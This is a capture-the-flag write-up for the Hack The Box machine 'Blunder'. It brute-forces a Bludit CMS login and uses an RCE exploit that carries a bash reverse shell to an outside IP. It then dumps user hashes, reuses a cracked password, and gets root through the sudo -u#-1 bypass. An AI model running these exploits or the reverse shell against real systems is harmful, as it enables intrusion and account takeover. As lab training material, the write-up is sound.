





## INITIAL ENUMERATION

```shell
nmap -sV -sC 10.129.95.225
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-02 18:53 CET
Nmap scan report for 10.129.95.225
Host is up (1.1s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Blunder | A blunder of interesting facts
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 115.03 seconds

```


## WEB 

The site is a blog of sorts:




I’ll run `ffuf` against the site, and include `-x php,txt,pdf` since I know the site is PHP, and since it’s an easy box so some CTF-like stuff might show up in `.txt` files:


```shell
ffuf -u http://10.129.95.225/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -e .php,.pdf,.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.95.225/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Extensions       : .php .pdf .txt 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

# Copyright 2007 James Fisher.pdf [Status: 200, Size: 7573, Words: 794, Lines: 171, Duration: 136ms]
about                   [Status: 200, Size: 3290, Words: 225, Lines: 106, Duration: 70ms]
0                       [Status: 200, Size: 7573, Words: 794, Lines: 171, Duration: 98ms]
admin                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 86ms]
install.php             [Status: 200, Size: 30, Words: 5, Lines: 1, Duration: 156ms]
robots.txt              [Status: 200, Size: 22, Words: 3, Lines: 2, Duration: 95ms]
todo.txt                [Status: 200, Size: 118, Words: 20, Lines: 5, Duration: 127ms]
usb                     [Status: 200, Size: 3969, Words: 304, Lines: 111, Duration: 179ms]
LICENSE                 [Status: 200, Size: 1083, Words: 155, Lines: 22, Duration: 93ms]

```


#### /admin

`/admin/` leads to an admin login for [Bludit](https://www.bludit.com/):



Bludit is a content management system (CMS).

#### todo.txt

`/todo.txt` returns a list of tasks.

```
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```

 I’ll note the username fergus seems to manage the blog. And that the task of Updating the CMS isn’t marked done.

#### BLUDIT VERSION

There is a version number in the CSS hrefs in the source, but it’s not clear to me that’s it’s the Blundit version:



Given that I have the vulnerability that allows for credential brute force, and the hint from `todo.txt` that fergus is a username, I’m going to try to find creds using brute force.

Before just trying `rockyou`, I thought that using [cewl](https://github.com/digininja/CeWL) to make a custom wordlist from the site might be a more interesting path that the box author might have taken. `cewl` will make a wordlist from a website. I’ll create one from the main page here:

```SHELL
cewl -w password.txt http://10.129.95.225
```


Now I dowloaded a python script at Github https://github.com/0xDTC/Bludit-3.9.2-Auth-Bruteforce-Bypass-CVE-2019-17240

```shell
chmod +x CVE-2019-17240.py

./CVE-2019-17240.py -u http://10.129.95.225/admin/login -U fergus -w password.txt 
Attempt Password: RolandDeschain                    | Progress: [##############################          ] (264/349)
Password Found: RolandDeschain

```


Now I can log in:




Knowing the version of bludit I found an RCE vulnerability: https://github.com/hg8/CVE-2019-16113-PoC

I'll edit the script with my URL, username, password and command to execute then run the script:

```shell
cat CVE-2019-16113.py 
#!/usr/bin/env python

import requests
import re

# PoC by @hg8
# Credit: @christasa
# https://github.com/bludit/bludit/issues/1081

url = "http://10.129.95.225"
user = "fergus"
password = "RolandDeschain"
cmd = "bash -c 'bash -i >& /dev/tcp/10.10.16.14/8585 0>&1'"
```

On my `nc`:

```shell
nc -lnvp 8585
listening on [any] 8585 ...
connect to [10.10.16.14] from (UNKNOWN) [10.129.95.225] 33882
bash: cannot set terminal process group (1257): Inappropriate ioctl for device
bash: no job control in this shell
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ whoami

www-data
```


There’s a couple of users, and I think some intentional false paths in the `shaun` home directory. Eventually I made it back into the `/var/www` directory to look at the web configs. Interesting, there were two versions of Bludit there:

```shell
www-data@blunder:/var/www$ ls -la
total 20
drwxr-xr-x  5 root     root     4096 Nov 28  2019 .
drwxr-xr-x 15 root     root     4096 Nov 27  2019 ..
drwxr-xr-x  8 www-data www-data 4096 May 19  2020 bludit-3.10.0a
drwxrwxr-x  8 www-data www-data 4096 Sep  8  2021 bludit-3.9.2
drwxr-xr-x  2 root     root     4096 Sep  8  2021 html

```

After a bunch of looking around in both directories, I found the file that holds the database config, in `/bl-content/databases/users.php`. v3.9.2 had two users:

```
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Admin",
        "firstName": "Administrator",
        "lastName": "",
        "role": "admin",
        "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
        "salt": "5dde2887e7aca",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""
    },
    "fergus": {
        "firstName": "",
        "lastName": "",
        "nickname": "",
        "description": "",
        "role": "author",
        "password": "be5e169cdf51bd4c878ae89a0a89de9cc0c9d8c7",
        "salt": "jqxpjfnv",
        "email": "",
        "registered": "2019-11-27 13:26:44",
        "tokenRemember": "657a282fad58fab9e0e920223c45c915",
        "tokenAuth": "0e8011811356c0c5bd2211cba8c50471",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "codepen": "",
        "instagram": "",
        "github": "",
        "gitlab": "",
        "linkedin": "",
        "mastodon": ""
    }
}
```

Based on the length, the passwords look like SHA1 hashes. Neither cracked by goolging or [crackstation](https://crackstation.net/). In the v3.10.0 config, there’s only one user:

```shell
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}

```

This must be what the note about cleaning up extra users was about. Perhaps the admin is setting up version 3.10, but hasn’t configured the move yet. This hash does break in [CrackStation](https://crackstation.net/):



I’ll also note that the admin user’s name is hugo. I’ll try `su` to hugo, and it works:

```shell
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ su - hugo
su - hugo
Password: Password120
whoami
hugo

```

## USER FLAG

From there I can access `user.txt`:

```shell
cat user.txt
5ed8fed3743ecb903bb3e78c5e8c0477
```


## ROOT FLAG

`sudo -l` gives something interesting:

```shell
sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash

```

This means that I can run `sudo /bin/bash` as any user except for root, which is a shame, as root is the user I want to run it as.

I found an exploit on Github https://github.com/M108Falcon/Sudo-CVE-2019-14287

I just copy it on `Blunder` machine:

```shell
hugo@blunder:~$ chmod +x CVE-2019-14287.sh

hugo@blunder:~$ ./CVE-2019-14287.sh
./CVE-2019-14287.sh
[-] This user has sudo rights
[-] Checking sudo version
[-] This sudo version is vulnerable
[-] Trying to exploit
root@blunder:/home/hugo# whoami
whoami
root
```

I can also trigger the vulnerability typing:

```shell
hugo@blunder:~$ sudo -u#-1 /bin/bash
Password: Password120

root@blunder:/home/hugo# whoami
root
```

Now I can grab `root.txt`:

```shell
root@blunder:/home/hugo# cd /root

root@blunder:/root# cat root.txt
79357fcdc1eadab2de78d09288e784eb
```

